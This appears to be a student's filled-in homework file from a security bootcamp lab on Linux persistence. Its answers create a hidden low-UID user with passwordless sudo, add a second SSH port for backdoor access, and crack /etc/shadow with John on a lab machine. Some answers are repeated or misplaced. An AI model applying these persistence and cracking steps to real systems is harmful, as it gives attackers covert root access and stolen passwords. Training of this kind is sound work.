 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd -u 111 -g 111 -M sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `useradd -u 111 -g 111 -M sysd`

4. Give your secret user the same GID:
   - `useradd -u 111 -g 111 -M sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  vi sudo

6. Test that `sudo` access works without your password:

    ```bash
    `sysd ALL=(ALL) NOPASSWD:ALL`
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

